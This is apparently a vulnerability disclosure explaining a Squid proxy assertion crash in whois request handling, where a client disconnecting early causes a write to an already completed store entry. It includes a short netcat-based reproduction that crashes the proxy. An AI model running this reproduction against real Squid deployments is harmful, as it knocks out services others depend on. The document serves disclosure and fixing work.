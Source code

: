 
# Whois Assertion Crash

Note: This issue is similar to that of `RFC 2141 / 2169 (URN) Assertion Crash`, and thus a detailed description is not given. However, this issue pertains to how Squid handles whois of WHOIS requests to whois servers.

## The Issue
When a client opens a connection with Squid and subsequently closes it, its so-called 'store entry' is marked as 'pending' (STORE_PENDING) and 'completed' (STORE_OK) respectively. If an attempt is subsequently made to write to that store entry after it has been set to STORE_OK, Squid will crash with an assertion, as it generally means something is 'wrong'.

Due to Squid marking a store as 'completed' upon a client disconnecting, it is possible to trick Squid into requesting a whois page, then quickly disconnecting, resulting in a write to a store which has been marked as STORE_OK.

In theory, this issue could affect HTTP too, however there are protections in place within the HTTP end-points to stop the processing of asynchronous replies when an entry has been aborted (such as due to a client closing the connection before the reply has been read) For example in `HttpStateData::readReply` and `HttpStateData::processReplyBody`, there is a check before the entry writing:
```
    if (EBIT_TEST(entry->flags, ENTRY_ABORTED)) {
        abortTransaction("store entry aborted while reading reply");
        return;
    }
```

It is trivial to cause this issue whois a whois:// request.
In one window, running
```
cat /dev/urandom | sudo nc -k -l 43
```
will act as a whois server.
In another window, we connect to this "whois server" through Squid, and disconnect quickly:
```
printf "GET whois://localhost/ HTTP/1.1\r\n\r\n" | timeout 0.1 nc localhost 3128 2>&1 > /dev/null
```
which results in the assertion:
```
2021/04/20 00:38:12.271| assertion failed: store.cc:832: "store_status == STORE_PENDING"
```
